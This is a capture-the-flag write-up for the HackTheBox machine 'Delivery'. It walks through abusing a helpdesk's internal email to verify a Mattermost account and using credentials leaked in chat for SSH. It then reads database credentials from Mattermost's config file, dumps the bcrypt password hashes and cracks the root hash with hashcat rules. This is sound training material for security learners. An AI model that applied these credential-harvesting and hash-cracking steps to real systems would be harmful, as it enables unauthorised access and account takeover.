




# Delivery: 10.10.10.222

## Hints

- Find a way to receive internal emails to get access to a chat service to get SSH creds
- Find somewhere where database creds might be stored by a service
- Read the hints on the chat service to get a hint about password reuse (with modification)

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    nginx 1.14.2
```

Looks like we have a Debian 10 target system running SSH and an HTTP server. Let's get started!

## 80: Recon

Having a look at the website gives us some info that it is a website for email support.


There is a "Contact Us" button that loads a window with some interesting information.


This leaks a couple of names:

- `http://helpdesk.delivery.htb/`: Helpdesk website
- `http://delivery.htb:8065/`: A Mattermost server

Seems sensible to add `delivery.htb` and `helpdesk.delivery.htb` to my `/etc/hosts` file. It also seems sensible to kick off a full port `nmap` scan as port `8065` is listed in the web app and might be open. FYI - after seeing the results from this new scan, this was the only additional port open.

After looking at the web source code there is nothing else happening on this site, so moving on!

## 80 Helpdesk: Recon

Looking at the helpdesk site, we can see that there is a ticketing system from osTicket.


The [osTicket](https://osticket.com/) software seems pretty popular and constantly updated, based on their [osTicket GitHub repo](https://github.com/osTicket/osTicket). Seems like we need to leverage this site to do something, rather than exploit the site. But that is just my gut feeling!

There are a few main options that I can see:

- Sign into an existing account
- Create an account
- Open a new ticket
- Check an existing ticket status

Since we have no creds, and brute-forcing seems unlikely... I started poking around the web app to see what happens when messing with a couple of things. Tried creating an account (`http://helpdesk.delivery.htb/account.php?do=create`), but you need to verify the email. That is not going to happen (even with a legit email) as HTB machines don't have Internet access. Then try creating a new ticket.



This in interesting! They provide an email (which is internal) that a user can send an email to and update the ticket. So, maybe this will receive and send emails? We can go view this ticket too by entering our email (that we entered when creating the ticket) and the ticket number.


We can view the ticket, but that seems about all. I tried a collection of other things at this point which didn't get me anywhere, including:

- Upload a file to the ticket, which accepted any file types but I couldn't get the file to execute
- Looked for exploits against osTicket

With no luck, I might be looking in the wrong place and moved on to the next service.

## 8065 Mattermost: Recon

Looking at port 8065, we can see there is a Mattermost server - aka the free Slack alternative.



At this point, I tried a couple of different things. I tried creating a new account with some random info and got a message that I needed to verify my email. I also tried a forgot password option, which also sends an email. The key piece of information is that email verification is required. Since I cannot use an Internet server and have to keep it local - it suddenly dawned on me that I should use the Helpdesk email we got before: `8929474@delivery.htb`. The idea being this email would be accessible and any emails sent to this address would turn up in the ticket history! Which would only work if the box creator has enabled emails, which is unusual in HTB, but worth a try.

I created a new Mattermost account with the email `8929474@delivery.htb` and the username `delivery`. The email address is from the osTicket I created before. I went back the Helpdesk site and refreshed the page and got the email!



They provided a activate link that we can just copy/paste to activate the account. This worked, and after the activation, we can log into the Mattermost server and access the "Internal" channel.



The first thing that we can see is one channel with a variety of messages from the root user:

> @developers Please update theme to the OSTicket before we go live.  Credentials to the server are maildeliverer:Youve_G0t_Mail! 

> Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"

> PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.

There are some credentials provided (`maildeliverer:Youve_G0t_Mail!`) that are probably used, as the post refers to: "Credentials to the server". There are some other useful hints too, especially the one about variants of the `PleaseSubscribe!` password. I tried the credentials on the Helpdesk website but they didn't work. Then tried them for SSH and success!

```none
└─$ ssh maildeliverer@10.10.10.222
maildeliverer@10.10.10.222's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$ id
uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
maildeliverer@Delivery:~$ wc -c user.txt 
33 user.txt
```

And we have the user flag!

## Privesc: `maildeliverer` to `root`

Started running linpeas on the target and having a manual poke around. Based on the hint from Mattermost - I was primarily looking for some hashes to try crack that might use variants of the `PleaseSubscribe!` password. Unfortunately, linpeas provided no insight into any creds or hashed passwords, so I started doing some more manual enumeration and research. After a long time looking and lots of open browser tabs found out that Mattermost stores database creds in its configuration data.

```none
cat /opt/mattermost/config/config.json
```

In this file, we can find a section called `SqlSettings` which has the MySQL database credentials.

```none
"SqlSettings": {
    "DriverName": "mysql",
    "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
    "DataSourceReplicas": [],
    "DataSourceSearchReplicas": [],
    "MaxIdleConns": 20,
    "ConnMaxLifetimeMilliseconds": 3600000,
    "MaxOpenConns": 300,
    "Trace": false,
    "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
    "QueryTimeout": 30,
    "DisableDatabaseSearch": false
},
```

From here, we can log into the MySQL service and have a look around.

```none
mysql -u mmuser -p
```

Then run some commands to see what databases and tables we have to work with.

```none
show databases;
use mattermost;
show tables;
describe Users;
```

The `Users` table had all the user-related data, included hashed passwords.

```none
MariaDB [mattermost]> select Username,Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| delivery                         | $2a$10$.J/Zwj0KsTqtE.aAVsRSA.tUmKwnoMNEXw0dFBUAZM.fzf5LXNzZK |
+----------------------------------+--------------------------------------------------------------+
8 rows in set (0.001 sec)
```

From here we can start to build a `hashcat` command that uses a [rule-based attack](https://hashcat.net/wiki/doku.php?id=rule_based_attack).

> The rule-based attack is like a programming language designed for password candidate generation. It has functions to modify, cut or extend words and has conditional operators to skip some, etc. That makes it the most flexible, accurate, and efficient attack.

To perform this attack we need the hash and password to modify in text files to input into the command.

```none
echo '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO~' > root_hash
echo 'PleaseSubscribe!' > base_password
```

Instead of specifying our own rules, we can use a preconfigured list of rules. Some are part of Kali Linux by default, in the `/usr/share/hashcat/rules` directory. I have used `best64.rule` before, so I stuck with that and formed a command to crack the password.

```none
hashcat -m 3200 root_hash base_password --user -r /usr/share/hashcat/rules/best64.rule
```

The hash was cracked quite fast.

```none
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Sun Sep  5 14:09:12 2021 (2 secs)
Time.Estimated...: Sun Sep  5 14:09:14 2021 (0 secs)
Guess.Base.......: File (base_password)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       11 H/s (7.12ms) @ Accel:1 Loops:128 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 21/77 (27.27%)
Rejected.........: 0/21 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:20-21 Iteration:896-1024
Candidates.#1....: PleaseSubscribe!21 -> PleaseSubscribe!21

Started: Sun Sep  5 14:08:27 2021
Stopped: Sun Sep  5 14:09:15 2021
```

With the `root` password of `PleaseSubscribe!21`, we can simply switch users to get the root flag!

```none
maildeliverer@Delivery:~$ su - root
Password: 
root@Delivery:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Delivery:~# wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Ticketing systems can be leveraged to receive internal emails without any proper authentication
- Should try using hashcat more to get used to the command syntax and the advanced features

## Useful Resources

- [HackTheBox - Delivery by ippsec](https://www.youtube.com/watch?v=gbs43E71mFM)
- [HTB: Delivery by 0xdf](https://0xdf.gitlab.io/2021/05/22/htb-delivery.html)
